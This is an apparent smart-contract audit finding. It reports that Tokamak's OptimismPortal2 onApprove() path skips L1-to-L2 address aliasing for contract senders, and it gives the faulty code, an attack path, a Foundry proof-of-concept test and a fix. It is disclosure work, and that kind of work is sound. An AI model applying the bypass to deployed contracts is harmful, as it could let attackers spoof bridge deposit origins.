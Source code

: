 Slow Lemon Lizard

Medium

# Smart contract addresses can bypass address aliasing via OptimismPortal2:onApprove()

### Summary

By bridging native token via `OptimismPortal2:onApprove()` smart contract addresses can bypass the aliasing feature.

### Root Cause

In Optimism, any L1 contract calling `depositTransaction()` should be translated to its alias for security purposes (refer to the [official documentation](https://docs.optimism.io/stack/differences#address-aliasing) for more info).

However,  in the [current implementation](https://github.com/sherlock-audit/2024-08-tokamak-network/blob/6d4cf9ea730d5b52b622f0b3afd41a35d3eba8a2/tokamak-thanos/packages/tokamak/contracts-bedrock/src/L1/OptimismPortal2.sol#L548), if the `_isOnApproveTrigger` parameter is set to `true`, aliasing is skipped, even when the sender is a smart contract. This is due to the conditional logic of the AND operator:

```js
address from =
    ((_sender != tx.origin) && !_isOnApproveTrigger) ? AddressAliasHelper.applyL1ToL2Alias(_sender) : _sender;
```

The `_isOnApproveTrigger` parameter can only be set to `true` through the [OptimismPortal2:onApprove()](https://github.com/sherlock-audit/2024-08-tokamak-network/blob/6d4cf9ea730d5b52b622f0b3afd41a35d3eba8a2/tokamak-thanos/packages/tokamak/contracts-bedrock/src/L1/OptimismPortal2.sol#L469) function, as shown below:

```js
if (msg.sender == _nativeToken()) {
     _depositTransaction(_owner, to, _amount, value, gasLimit, to == address(0), message, true);
    return true;
}
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. A user deposits their TON tokens into a smart contract.
2. The user invokes the `TON:approveAndCall()` function, designating OptimismPortal2 as the target.
3. This initiates a `_depositTransaction()` without applying aliasing to the sender, which in this case is the user’s smart contract.

### Impact

This vulnerability allows bypassing a critical security feature in Optimism, specifically the address aliasing mechanism, which protects against certain attack vectors involving contract-based interactions.

### PoC

To reproduce the issue, add the following test case to` OptimismPortal2.t.sol`:

```js
function test_alias_bypass_onApprove() public { 
        deal(address(l2NativeToken), address(this), 10 ether);
        assertEq(l2NativeToken.balanceOf(address(this)), 10 ether);

        vm.expectEmit(address(optimismPortal2));
        emitTransactionDeposited({
            _from: address(this),
            _to: address(22),
            _value: 0,
            _mint: 10 ether,
            _gasLimit: uint32(25_000),
            _isCreation: false,
            _data: bytes("")
        });

        // @note won't work with L1CrossDomainMessenger:onApprove()
        l2NativeToken.approveAndCall(
            address(optimismPortal2), 
            10 ether, 
            abi.encodePacked(address(22), uint256(0), uint32(25_000), bytes(""))
        );
    }
```

### Mitigation

Aliasing shouldn't be skipped regardless of the `_isOnApproveTrigger` value.

```diff
address from = 
-   ((_sender != tx.origin) && !_isOnApproveTrigger) ? AddressAliasHelper.applyL1ToL2Alias(_sender) : _sender;
+   ((_sender != tx.origin)) ? AddressAliasHelper.applyL1ToL2Alias(_sender) : _sender;
```
